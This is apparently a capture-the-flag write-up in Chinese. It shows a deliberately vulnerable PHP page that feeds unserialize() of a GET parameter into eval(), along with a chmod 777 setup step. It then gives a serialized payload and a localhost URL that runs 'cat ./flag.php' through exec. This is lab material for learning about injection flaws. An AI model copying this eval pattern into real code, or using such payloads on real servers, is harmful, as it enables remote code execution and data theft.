


### 某站点图片阅览器

```
<?php 
error_reporting(0); 
if(empty($_GET['code'])) die(show_source(__FILE__)); 
class Example{ 
    var $var=""; 
    function __destruct(){ 
        eval($this->var); 
    } 
} 

$ob = new Example(); 
$ob->var = unserialize($_GET['code']); 
echo '__FILE__:' . __FILE__; 
echo '<br />' . '?code='; 
unset($ob); 
?> 1
```
#### 配置
```
chmod 777 un.php
```

# Writeup:

Payload:

```
<?php
$a =serialize('echo exec("cat ./flag.php");');
echo $a;
?>

>>>> php se.php

s:28:"echo exec("cat ./flag.php");";

```


http://127.0.0.1/un.php?code=s:28:"echo exec("cat ./flag.php");";


